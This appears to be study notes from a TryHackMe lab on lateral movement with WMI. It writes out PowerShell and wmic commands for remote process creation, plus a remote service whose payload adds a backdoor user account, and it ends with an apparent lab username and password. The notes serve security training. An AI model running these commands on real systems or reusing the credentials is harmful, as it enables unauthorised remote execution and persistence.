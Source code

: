 #  Moving Laterally Using WMI

## Connecting to WMI From Powershell

Create a Powershell $Credential object using the following commands:

```shell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
``` 

We then proceed to establish a WMI session using either of the following protocols:
	-**DCOM**: RPC over IP will be used for connecting to WMI. This protocol uses port 135/TCP and ports 49152-65535/TCP, just as explained when using sc.exe.
	-**Wsman**: WinRM will be used for connecting to WMI. This protocol uses ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).

To establish a WMI session from Powershell, we can use the following commands and store the session on the $Session variable, which we will use throughout the room on the different techniques:
```shell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

## Remote Process Creation Using WMI
-**Ports**:
	-135/TCP, 49152-65535/TCP (DCERPC)
	-5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
-**Required Group Memberships**: Administrators

We can remotely spawn a process from Powershell by leveraging Windows Management Instrumentation (WMI), sending a WMI request to the Win32_Process class to spawn the process under the session we created before:
```shell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```

On legacy systems, the same can be done using wmic from the command prompt:
`wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe"`

## Creating Services Remotely with WMI
-**Ports**:
	-135/TCP, 49152-65535/TCP (DCERPC)
	-5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
-**Required Group Memberships**: Administrators

We can create services with WMI through Powershell. To create a service called THMService2, we can use the following command:
```shell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

ZA.TRYHACKME.COM\t1_corine.waters

Korine.1994